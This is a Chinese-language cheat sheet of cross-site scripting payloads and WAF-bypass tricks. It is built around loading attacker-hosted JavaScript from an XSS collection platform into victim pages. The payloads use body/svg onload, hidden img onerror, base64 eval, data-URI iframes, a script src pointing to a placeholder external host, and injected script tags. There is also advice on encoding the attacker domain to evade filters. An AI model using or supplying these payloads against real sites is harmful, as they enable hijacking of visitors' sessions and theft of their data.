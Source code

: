 # x55-bypass

---

### 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
6.网站有jq可以使用$.getScript("js地址")
```



### 常用

```
<BODY/ONLOAD=$.getScript("js地址")>
```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
https://www.cnblogs.com/wjrblogs/p/12341190.html
```



### 图片加载错误执行js代码（不显示图片）

```
<img/src=# style=display:none onerror=$.getScript("js地址")>
```

bypass 常规waf

```
冷门标签绕过：

`!-- --`绕过:
`<!--<img src="--><img src onerror=alert(1)//">`

`<style><img src="</style><img src onerror=alert(1)//">`
```




### 短，无script标签

```
<BODY/ONLOAD=alert('123')>   
<SVG/ONLOAD=alert('123')>
```



### base64

```
<img style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
YWxlcnQoJzEyMycp => alert('123')
```



### data:text/html  # 目前只能测试能在iframe上使用

```
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E -> <script>alert(1)</script>
```



### 绕过<script src>的正则

```
<SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```



### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
<img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



### 可用（不看伪装效果，动静较大）

```
<IFRAME SRC=# onmouseover=$.getScript("js地址")></IFRAME>  
<input/onmouseover=$.getScript("js地址")>
```

